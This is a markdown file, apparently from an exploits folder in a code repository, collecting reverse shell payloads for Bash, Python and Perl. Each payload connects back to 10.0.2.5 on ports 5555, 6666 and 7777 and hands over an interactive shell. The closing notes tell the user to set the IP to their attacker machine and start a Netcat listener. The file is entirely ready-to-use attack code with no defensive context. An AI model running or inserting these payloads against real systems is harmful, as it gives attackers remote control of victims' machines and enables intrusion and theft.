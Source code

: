 ### 📄 `exploits/custom_payloads.md`

# 🎯 Custom Exploit Payloads

This file contains additional reverse shell payloads for different interpreters.  
Update IP and port values before use.

## 🔹 Bash Reverse Shell
```bash
bash -i >& /dev/tcp/10.0.2.5/5555 0>&1
```
## 🔹 Python Reverse Shell
```python
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.0.2.5",6666)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call(["/bin/bash","-i"]);'
```
## 🔹 Perl Reverse Shell
```perl
perl -e 'use Socket;$i="10.0.2.5";$p=7777;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## 💡 Notes
- Change the IP (`10.0.2.5`) to match your attacker machine.
- Modify the port (`5555`, `6666`, `7777`) as needed.
- Ensure you start the corresponding Netcat listener before running the payload.